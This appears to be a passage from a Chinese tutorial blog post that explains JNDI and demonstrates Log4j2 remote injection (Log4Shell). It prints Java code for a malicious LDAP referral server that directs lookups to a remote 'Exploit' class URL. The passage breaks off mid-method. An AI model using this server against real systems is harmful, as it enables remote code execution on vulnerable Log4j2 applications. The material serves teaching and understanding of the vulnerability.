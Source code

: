 为什么我们有了JDBC/LDAP/RMI等还需要JNDI呢？

我们以JDBC举例，我们使用原生JDBC连接数据库的时候，需要指定一系列参数，例如：连接地址、端口、数据库驱动、账号密码、连接池参数等等。我们怎么获取这些配置呢？这些配置除了配置在本地，还可以配置在远端，那么有没有一种接口屏蔽配置获取的具体细节？给它一个”名称“就能返回所有配置？这就是JNDI要做的事情，它定义了一套通过名称获取属性的API，JDBC/LDAP/RMI等都去实现它。

<img src="https://picgo.6and.ltd/img/image-20211219231451885.png" alt="image-20211219231451885" style="zoom: 43%;" />

## Log4j2远程注入演示

### LDAP



1. 启动 LDAPRefServer

```java
public class LDAPRefServer {

    private static final String LDAP_BASE = "dc=example,dc=com";

    /**
     * class地址 用#Exploit代替Exploit.class
     */
    private static final String EXPLOIT_CLASS_URL = "http://127.0.0.1:8000/#Exploit";

    public static void main(String[] args) {
        int port = 7912;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(EXPLOIT_CLASS_URL)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;
        public OperationInterceptor(URL cb) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            } catch (Exception e1) {
                e1.printStackTrace();
            }
```
